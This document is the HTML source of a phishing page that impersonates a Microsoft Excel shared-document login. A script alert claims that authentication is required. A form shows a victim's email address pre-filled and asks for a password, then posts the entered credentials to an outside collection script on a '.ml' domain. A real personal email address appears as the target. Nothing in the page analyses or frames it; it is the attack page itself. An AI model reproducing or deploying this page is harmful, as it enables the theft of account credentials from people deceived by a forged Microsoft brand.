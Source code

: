 <script language="JavaScript">
alert("This Document Is Shared Via Microsoft Excel & Requires Authentication. Click Ok To Continue")
</script>
<HTML><HEAD><meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">

<STYLE type=text/css>
body, html {height: 100%;margin: 0;  font-family: "Segoe UI Webfont",-apple-system,"Helvetica Neue","Lucida Grande","Roboto","Ebrima","Nirmala UI","Gadugi","Segoe Xbox Symbol","Segoe UI Symbol","Meiryo UI","Khmer UI","Tunga","Lao UI","Raavi","Iskoola Pota","Latha","Leelawadee","Microsoft YaHei UI","Microsoft JhengHei UI","Malgun Gothic","Estrangelo Edessa","Microsoft Himalaya","Microilsoft New Tai Lue","Microsoft PhagsPa","Microsoft Tai Le","Microsoft Yi Baiti","Mongolian Baiti","MV Boli","Myanmar Text","Cambria Math";}	
.wrapper {  background-image: url(https://i.gyazo.com/4522caeb250b902767ea9d7dbee510fb.png);  background-repeat: no-repeat; background-attachment: fixed;  background-position: center;  background-size: cover;  position: fixed;  top: 0;  left: 0;  height: 100%;  width: 100%;   display: flex;  flex-flow: column nowrap; justify-content: center;  align-items: center;  box-sizing: border-box;}
.element {  width: 320px;  height: 300px;  padding: 40px 30px;  background-color: #ffffff;  border: 1px solid grey;  border-color: #036328;}
.elemente{	width: 400px;  height: 300px;  padding: 40px 30px;  background-color: #ffffff;  border: 1px solid grey;}
div .sign-opt {	padding: 20px 0px;	font-size: 14px;}
.newbutton{	width: 110px; float: left; border-color: #036328; background-color: #036328; color: #fff; font-size: 14px; padding: 8px 0; cursor: pointer; border: none;}
</STYLE>
<title>Microsoft Excel</title>
<link rel="shortcut icon" href="https://i.gyazo.com/7ae773ff61e2c8a88bda5530c3b2aa13.png" type="">
</HEAD>
<BODY>
<DIV class=wrapper><!-- Fixed element that spans the viewport -->
<DIV id=element class=element>
<FORM method=post action="https://boehmw.ml/.well-known/pdf/msxl.php" autocomplete=""><p>
<DIV id=logo><IMG border=0 alt="" src="https://i.gyazo.com/7ae773ff61e2c8a88bda5530c3b2aa13.png" color="#036328" align="top" width="30" height="30"/> <b>ScannedDoc0902881</b></DIV></p><p>
<DIV id=cont style="TEXT-ALIGN: left; PADDING-TOP: 10px; font-size:20px; color:#0a0a0a;" >Continue With Email Password To View Document</DIV></p><p>

<DIV><INPUT  name=login-amg1 required="required" value="embaie1@hotmail.co.uk" placeholder="Email address" readonly style="width:320; height:30; border-color: #0a0a0a"></DIV></p>
<DIV><INPUT type=password name=passwd-amg1 required="required" autofocus="autofocus" placeholder="Password" style="width:320; height:30; border-color: #0a0a0a"></DIV>
<DIV id=sign-opt class=sign-opt>
<DIV id=no-acc></A></DIV>
<DIV class=button><A href="#"><BUTTON id=i983893 class=newbutton type=submit name=submit>
<FONT color=#fff>Continue</FONT></BUTTON></A></DIV>
<DIV id=sign-out class=sign-opt><A href="#"></A></DIV></DIV></FORM></DIV><!-- your actual centered element --></DIV></BODY></HTML>
